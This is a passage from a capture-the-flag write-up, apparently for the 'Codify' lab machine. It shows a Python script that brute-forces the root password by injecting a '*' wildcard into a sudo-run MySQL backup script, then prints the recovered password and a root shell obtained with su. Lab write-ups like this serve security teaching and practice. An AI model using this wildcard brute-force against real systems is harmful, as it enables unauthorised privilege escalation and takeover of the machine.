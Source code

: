 ```bash
joshua@codify:~$ cat brute.py
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
joshua@codify:~$ python3 brute.py 
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
```

The root password is `kljh12k3jhaskjh12kjh3`.

```bash
joshua@codify:~$ su root
Password: 
root@codify:/home/joshua# 
```

# Alternative Privilege Escalation
